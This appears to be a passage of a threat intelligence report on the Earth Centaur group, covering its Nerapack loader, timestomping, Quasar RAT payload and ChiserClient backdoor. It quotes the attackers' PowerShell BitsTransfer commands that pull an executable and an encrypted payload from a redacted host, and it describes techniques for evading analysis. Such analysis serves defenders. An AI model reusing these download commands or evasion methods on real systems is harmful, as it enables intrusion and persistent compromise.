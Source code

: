 




Technical Analysis of Earth Centaur’s Tools and Techniques
Stage 1: Loaders
After the threat actors get access to the vulnerable hosts by using ProxyLogon exploits and web shells, they use bitsadmin to download the next-stage loader (loaders are detected as Nerapack) as well as its payload file (.bin).
C:\Windows\system32\windowspowershell\v1.0\powershell.exe -Command "&{Import-Module BitsTransfer; Start-BitsTransfer 'http://<redacted>:8000/dfmanager.exe' "%temp%/dfmanager.exe"}"
C:\Windows\system32\windowspowershell\v1.0\powershell.exe -Command "&{Import-Module BitsTransfer; Start-BitsTransfer 'http://<redacted>:8000/dfmanager.bin' "C:\Users\<redacted>\AppData\Local\Temp/dfmanager.bin"}"
After our long-term monitoring, we observed that there are two different decryption algorithms (DES or AES) used in Nerapack to decrypt the payload. Moreover, in its newer version, it uses a technique called “Timestomping.” Timestomping is when the timestamp of the payload file (.bin) is altered to make it harder for incident response analysts to find it.






Figure 2. Timestomping used on the bin file





The decryption key is used as an argument of Nerapack and various keys are used on different victims. It is a simple but effective technique that makes security analysis more difficult and also ensures that only their operators can use the tools.
The command for execution is shown as here:
> Nerapack.exe {base64 encoded key}
Fortunately, we were still able to collect the decryption key in some cases and we decrypted the payload successfully. Based on our current cases, the decrypted payload is Quasar RAT. After the payload is deployed, the actors can continue further malicious actions through Quasar RAT.
Stage 2: Backdoors
After further analysis, we found that the threat group developed multiple backdoors capable of communication via common network protocols. We think this indicates that it has the capability to bypass network security systems by using these common protocols to transfer data. We also found that the group tries to launch various backdoors per victim. Furthermore, it also tends to use existing frameworks to make customized backdoors. By using existing frameworks, examples of which are detailed in the following, it builds new backdoor variants more efficiently.
ChiserClient
After the backdoor is launched, it will decrypt the embedded C&C configuration via AES (CTR mode) algorithm for the following connection. In the configuration, there are three C&C addresses and corresponding port numbers.






Figure 3. Decrypted C&C configuration





In the first connection, ChiserClient will append the host name of the compromised host for check-in purposes. Then, it will keep running on the hosts and wait for further commands from the C&C server.
ChiserClient is installed as a system service to allow the threat actors access to higher privileges and keep persistence on the compromised host. The capability of ChiserClient is shown in the following table:
